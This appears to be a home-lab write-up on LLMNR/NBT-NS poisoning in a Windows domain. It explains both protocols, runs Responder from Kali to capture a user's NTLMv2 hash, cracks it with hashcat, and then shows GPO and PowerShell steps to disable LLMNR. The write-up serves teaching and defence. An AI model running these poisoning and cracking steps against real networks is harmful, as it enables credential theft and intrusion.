

**LLMNR** (Link-Local Multicast Name Resolution) is a protocol used by Windows to resolve hostnames when DNS fails. When a machine can't resolve a name via DNS, it broadcasts an LLMNR query to the network asking _"Does anyone know where [hostname] is?"_ — and any machine can respond.

**The attack:** Attacker responds to these broadcasts pretending to be the requested host, tricks the victim into sending their NTLMv2 credentials, then captures the hash.

## LLMNR — Link-Local Multicast Name Resolution

### Origins & Purpose

LLMNR was introduced in **Windows Vista** (2006) and standardized in **RFC 4795**. It was designed as a lightweight fallback for peer-to-peer name resolution without requiring a DNS server — useful in small home/office networks.

### How It Works

When DNS fails, Windows sends an LLMNR query to the **multicast address `224.0.0.252`** on **UDP port 5355**.

```
Source:      192.168.10.21  (WS01)
Destination: 224.0.0.252    (multicast — ALL hosts receive this)
Port:        UDP 5355
Query:       "Who is 'fakeshare'?"
```

Every host on the local subnet receives this packet. Any host can reply — there is **zero authentication** on who answers.

## NBT-NS — NetBIOS Name Service

### Origins & Purpose

NBT-NS is much older — it comes from **NetBIOS over TCP/IP**, standardized in **RFC 1001/1002** back in 1987. It predates DNS as a name resolution method for Windows networks and uses **UDP port 137**.

It resolves **NetBIOS names** (15-character flat names, like `CORP`) rather than FQDNs. When LLMNR fails, Windows falls back to NBT-NS as a last resort.

### How It Works

NBT-NS sends a broadcast to the **subnet broadcast address** (`192.168.10.255`) on **UDP port 137**:

```
Source:      192.168.10.21
Destination: 192.168.10.255   (broadcast — ALL hosts receive this)
Port:        UDP 137
Query:       "FAKESHARE<20>"   (NetBIOS name with service type suffix)
```

The `<20>` suffix indicates a **file server service** lookup. Common suffixes:

|Suffix|Meaning|
|---|---|
|`<00>`|Workstation service|
|`<03>`|Messenger service|
|`<20>`|File server service|
|`<1C>`|Domain controller lookup|

Again, any machine can respond, and there is no authentication.


# Lab

In Kali, use `responder`. Responder is the tool that listens for LLMNR/NBT-NS broadcasts and poisons them.

```
└─$ ip a                                                       
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:47:79:15 brd ff:ff:ff:ff:ff:ff
    inet 192.168.10.99/24 brd 192.168.10.255 scope global noprefixroute eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe47:7915/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever


┌──(lucius㉿vbox)-[~]
└─$ sudo responder -I eth0 -wdv
[sudo] password for lucius: 
Sorry, try again.
[sudo] password for lucius: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[*] Tips jar:
    USDT -> 0xCc98c1D3b8cd9b717b5257827102940e4E17A19A
    BTC  -> bc1q9360jedhhmps5vpl3u05vyg4jryrl52dmazz49

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]
    DHCPv6                     [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.10.99]
    Responder IPv6             [fe80::a00:27ff:fe47:7915]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-OSUWEUFDM6M]
    Responder Domain Name      [ZWP0.LOCAL]
    Responder DCE-RPC Port     [46369]

[*] Version: Responder 3.2.2.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>

[+] Listening for events...               
```

Responder will now listen silently for any LLMNR/NBT-NS broadcasts on `192.168.10.0/24`.

On **WS01** (logged in as John or a any domain user), open File Explorer and type a fake UNC path in the address bar — something that doesn't exist on the network. Here `\\corpfiles` was typed on the bar:


After seeing like the image above, check `responder` in Kali machine:

```
[*] [NBT-NS] Poisoned answer sent to 192.168.10.21 for name CORPFILES (service: File Server)
[*] [MDNS] Poisoned answer sent to 192.168.10.21   for name corpfiles.local
[*] [MDNS] Poisoned answer sent to fe80::f931:677e:6ade:1847 for name corpfiles.local
[*] [MDNS] Poisoned answer sent to 192.168.10.21   for name corpfiles.local
[*] [LLMNR]  Poisoned answer sent to fe80::f931:677e:6ade:1847 for name corpfiles
[*] [LLMNR]  Poisoned answer sent to 192.168.10.21 for name corpfiles
[*] [MDNS] Poisoned answer sent to fe80::f931:677e:6ade:1847 for name corpfiles.local
[*] [LLMNR]  Poisoned answer sent to fe80::f931:677e:6ade:1847 for name corpfiles
[*] [LLMNR]  Poisoned answer sent to 192.168.10.21 for name corpfiles
[SMB] NTLMv2-SSP Client   : fe80::f931:677e:6ade:1847
[SMB] NTLMv2-SSP Username : CORP\jsmith
[SMB] NTLMv2-SSP Hash     : jsmith::CORP:9e0880e88b2df2a0:7628B8928646E863FD496D71BB3E271E:0101000000000000807F4DA84EB5DC0164BDA17154A42C1600000000020008005A0057005000300001001E00570049004E002D004F0053005500570045005500460044004D0036004D0004003400570049004E002D004F0053005500570045005500460044004D0036004D002E005A005700500030002E004C004F00430041004C00030014005A005700500030002E004C004F00430041004C00050014005A005700500030002E004C004F00430041004C0007000800807F4DA84EB5DC01060004000200000008003000300000000000000000000000002000007F1B1F00820CCDA846071920E73A9FD29576B9473C47FF9B16264EFAE2C6B1AD0A0010000000000000000000000000000000000009001C0063006900660073002F0063006F0072007000660069006C00650073000000000000000000
```

When Responder answers and the victim connects, Windows automatically tries to authenticate using **NTLM** (because it thinks it's talking to a file share).
When a LLMNR event occurs in the network and is maliciously responded to, the attacker will obtain:

- The IP address of the victim: 192.168.10.21
- The domain and username of the victim (in this example: `CORP\jsmith`)
- The victim’s password hash

The NTLMv2 hash is not the password itself, but it's derived from it. It can be cracked offline with Hashcat or used directly in pass-the-hash / NTLM relay attacks without ever cracking it.

Copy the hash into a txt file:

```
└─$ echo "jsmith::CORP:9e0880e88b2df2a0:7628B8928646E863FD496D71BB3E271E:0101000000000000807F4DA84EB5DC0164BDA17154A42C1600000000020008005A0057005000300001001E00570049004E002D004F0053005500570045005500460044004D0036004D0004003400570049004E002D004F0053005500570045005500460044004D0036004D002E005A005700500030002E004C004F00430041004C00030014005A005700500030002E004C004F00430041004C00050014005A005700500030002E004C004F00430041004C0007000800807F4DA84EB5DC01060004000200000008003000300000000000000000000000002000007F1B1F00820CCDA846071920E73A9FD29576B9473C47FF9B16264EFAE2C6B1AD0A0010000000000000000000000000000000000009001C0063006900660073002F0063006F0072007000660069006C00650073000000000000000000" > hash.txt
```

Use the `password.txt` created before to crack with `hashcat`:

```
└─$ hashcat -m 5600 hash.txt passwords.txt                   
hashcat (v7.1.2) starting

<SNIP>

Dictionary cache built:
* Filename..: passwords.txt
* Passwords.: 15
* Bytes.....: 144
* Keyspace..: 15
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

JSMITH::CORP:9e0880e88b2df2a0:7628b8928646e863fd496d71bb3e271e:0101000000000000807f4da84eb5dc0164bda17154a42c1600000000020008005a0057005000300001001e00570049004e002d004f0053005500570045005500460044004d0036004d0004003400570049004e002d004f0053005500570045005500460044004d0036004d002e005a005700500030002e004c004f00430041004c00030014005a005700500030002e004c004f00430041004c00050014005a005700500030002e004c004f00430041004c0007000800807f4da84eb5dc01060004000200000008003000300000000000000000000000002000007f1b1f00820ccda846071920e73a9fd29576b9473c47ff9b16264efae2c6b1ad0a0010000000000000000000000000000000000009001c0063006900660073002f0063006f0072007000660069006c00650073000000000000000000:JohnPassword123!
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: JSMITH::CORP:9e0880e88b2df2a0:7628b8928646e863fd496...000000
Time.Started.....: Mon Mar 16 14:22:06 2026 (0 secs)
Time.Estimated...: Mon Mar 16 14:22:06 2026 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:       59 H/s (0.06ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 15/15 (100.00%)
Rejected.........: 0/15 (0.00%)
Restore.Point....: 0/15 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...: Password123 -> JohnPassword123!
Hardware.Mon.#01.: Util: 26%

```


## Scope Limitation
Both LLMNR and NBT-NS are **non-routable** by design:

- LLMNR uses multicast with TTL=1 — routers drop it immediately
- NBT-NS uses subnet broadcast — routers never forward broadcasts

This means your Kali machine at `192.168.10.99` can only poison victims on `192.168.10.0/24`. In a segmented enterprise network, you'd need to be on the same VLAN as the victim. This is why attackers who gain a foothold on one segment pivot to others — to reach different subnets and poison from within.


## Mitigation

| Control            | How to Apply                                                   | Effectiveness                   |
| ------------------ | -------------------------------------------------------------- | ------------------------------- |
| Disable LLMNR      | GPO → DNS Client → Turn off Multicast Name Resolution          | Eliminates LLMNR vector         |
| Disable NBT-NS     | DHCP scope options → 001 = 2, or NIC settings                  | Eliminates NBT-NS vector        |
| Enable SMB Signing | GPO → Microsoft Network Client → Digitally sign communications | Blocks NTLM relay (not capture) |
In DC01:

```powershell
# Create a new GPO for hardening 
New-GPO -Name "Disable LLMNR and NBT-NS" -Comment "Mitigates LLMNR poisoning attacks" 
# Link it to the domain 
New-GPLink -Name "Disable LLMNR and NBT-NS" -Target "DC=corp,DC=local"
```

```powershell
Set-GPRegistryValue -Name "Disable LLMNR and NBT-NS" `
  -Key "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" `
  -ValueName "EnableMulticast" `
  -Type DWord -Value 0
```


```powershell
gpupdate /force
```

Reboot WS01 and run pwsh as Admin:

```
(Get-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\DNSClient" `
  -ErrorAction SilentlyContinue).EnableMulticast
```

This should return `0`

```
PS C:\Windows\system32> gpresult /r /scope computer

<SNIP>

RSOP data for  on WS01 : Logging Mode
--------------------------------------

OS Configuration:            Member Workstation
OS Version:                  10.0.19045
Site Name:                   Default-First-Site-Name
Roaming Profile:
Local Profile:
Connected over a slow link?: No


COMPUTER SETTINGS
------------------
    CN=WS01,OU=Computers,OU=IT,DC=corp,DC=local
    Last time Group Policy was applied: 3/16/2026 at 3:59:59 PM
    Group Policy was applied from:      DC01.corp.local
    Group Policy slow link threshold:   500 kbps
    Domain Name:                        CORP
    Domain Type:                        Windows 2008 or later

    Applied Group Policy Objects
    -----------------------------
        Default Domain Policy
        Disable LLMNR and NBT-NS

    The following GPOs were not applied because they were filtered out
    -------------------------------------------------------------------
        Local Group Policy
            Filtering:  Not Applied (Empty)

    The computer is a part of the following security groups
    -------------------------------------------------------
        BUILTIN\Administrators
        Everyone
        NT AUTHORITY\Authenticated Users
        System Mandatory Level
```